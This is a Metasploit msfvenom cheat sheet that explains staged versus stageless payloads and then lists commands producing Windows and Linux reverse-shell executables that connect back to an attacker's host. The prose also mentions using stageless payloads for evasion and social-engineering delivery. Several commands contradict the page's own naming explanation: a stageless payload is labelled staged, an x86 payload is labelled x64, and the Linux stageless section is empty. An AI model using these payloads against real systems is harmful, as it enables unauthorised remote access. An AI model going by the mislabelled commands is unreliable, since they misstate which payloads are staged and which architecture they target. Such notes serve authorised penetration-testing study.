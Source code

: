 * * *

# MSFvenom
## List 
```bash
# Payloads
$ msfvenom -l payloads

# #Encoders
$ msfvenom -l encoders 
```

## Staged vs. Stageless Payloads
Staged payloads create a way for us to send over more components of our attack. We can think of it like we are "setting the stage" for something even more useful. Take for example this payload linux/x86/shell/reverse_tcp. When run using an exploit module in Metasploit, this payload will send a small stage that will be executed on the target and then call back to the attack box to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell. Of course, if we use Metasploit to run this payload, we will need to configure options to point to the proper IPs and port so the listener will successfully catch the shell. Keep in mind that a stage also takes up space in memory which leaves less space for the payload. What happens at each stage could vary depending on the payload.

Stageless payloads do not have a stage. Take for example this payload linux/zarch/meterpreter_reverse_tcp. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere. Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload. In addition to this, stageless payloads can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload, especially if we deliver it by employing social engineering. This concept is also very well explained by Rapid 7 in this blog post on stageless Meterpreter payloads.

Now that we understand the differences between a staged and stageless payload, we can identify them within Metasploit. The answer is simple. The name will give you your first marker. Take our examples from above, linux/x86/shell/reverse_tcp is a staged payload, and we can tell from the name since each / in its name represents a stage from the shell forward. So /shell/ is a stage to send, and /reverse_tcp is another. This will look like it is all pressed together for a stageless payload. Take our example linux/zarch/meterpreter_reverse_tcp. It is similar to the staged payload except that it specifies the architecture it affects, then it has the shell payload and network communications all within the same function /meterpreter_reverse_tcp. For one last quick example of this naming convention, consider these two windows/meterpreter/reverse_tcp and windows/meterpreter_reverse_tcp. The former is a Staged payload. Notice the naming convention separating the stages. The latter is a Stageless payload since we see the shell payload and network communication in the same portion of the name. If the name of the payload doesn't appear quite clear to you, it will often detail if the payload is staged or stageless in the description.

## Payloads
```bash
# Staged Payload for Windows
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

# Stageless Payload for Windows
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Staged Payload for Linux
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# Stageless Payload for Linux
```